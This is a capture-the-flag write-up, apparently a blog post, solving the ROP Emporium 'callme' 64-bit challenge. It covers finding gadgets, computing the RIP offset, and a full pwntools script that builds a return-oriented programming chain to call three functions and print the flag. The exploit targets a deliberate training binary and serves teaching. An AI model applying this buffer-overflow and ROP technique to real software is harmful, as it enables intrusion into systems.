 ```yaml
---
layout: post
title: Callme 64-bit Rop Emporium
date: 2025-04-23
categories:
  - pwn
---
```

# Callme 64 bit Writeup

From challenge description
> You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. **For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

---
### Exploitation Path
1. Find ROP gadgets
2. Find Offset to RIP
3. Find function addresses

#### Finding the gadgets
We are gonna use pwntools to find the required rop gadgets. we have to call a functions with 3 arguments, therefore we will need the following registers
- `rdi`
- `rsi`
- `rdx`
The full rop gadget is `pop rdi; pop rsi; pop rdx; ret`

Using pwntools to find gadget
```python
rop.find_gadget(['pop rdi', 'pop rsi', 'pop rdx', 'ret'])[0]
```
#### Finding the offset to RIP

Create de bruijn sequence
```sh
ragg2 -P 200 -r
```

copy output then run program with r2 debugger

![Debugger](../assets/images/callmex64pic1.png)

offset to rbp = 32

offset to rip = rbp + 8 = 40

#### Finding function addresses
Use pwntools to easily find the function addresses

```python
func1 = elf.sym['callme_one']
func2 = elf.sym['callme_two']
func3 = elf.sym['callme_three']
```

---


### Developing Payload

The payload following this :
- junk *  offset_to_rip
- rop_gadget
- function_args
- function

```python
payload = cyclic(offset) 
payload += rop_gadget
payload += arg1, arg2, arg2
payload += elf.sym['callme_one']
```

### Final Script

```python
#!/bin/python3
from pwn import *
import sys

binary = "./callme"
elf = context.binary = ELF(binary, False)
context.terminal = ["terminator", "-x", "bash", "-c"]
context.log_level  = 'debug'
libc = elf.libc
rop = ROP(elf)

#### GDB Script
script = '''

'''
def start(*args, **kwargs):
    usage = f"{sys.argv[0]} gdb \nor \n{sys.argv[0]} remote"
    # [ip, port]
    REMOTE = []
    if args:
        arguments = list(args)
        arguments.insert(0, elf.path)
        return process(arguments)

    if not args and not kwargs:
        if len(sys.argv) > 1:
            if sys.argv[1] == 'gdb':
                return gdb.debug(elf.path, gdbscript=script)
            elif sys.argv[1] == 'remote':
                return remote(REMOTE[0], REMOTE[1])
            else:
                print("INVALID ARGUMENT")
                print(usage)
                sys.exit(0)
        else:
            return process(elf.path)

def main():
    ### MAIN CODE HERE
    arg1, arg2, arg3 = 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d
    
    ## rop gadget
    gadget = rop.find_gadget(['pop rdi', 'pop rsi', 'pop rdx', 'ret'])[0]
    offset = 40 # offset to rip
    payload = flat(
        cyclic(offset),
        gadget,
        arg1, arg2, arg3,
        elf.sym['callme_one'],
        gadget,
        arg1, arg2, arg3,
        elf.sym['callme_two'],
        gadget,
        arg1, arg2, arg3,
        elf.sym['callme_three']
    )

    io = start()
    io.recvuntil('> ')
    io.sendline(payload)
    io.interactive()
if __name__ == "__main__":
    main()
```

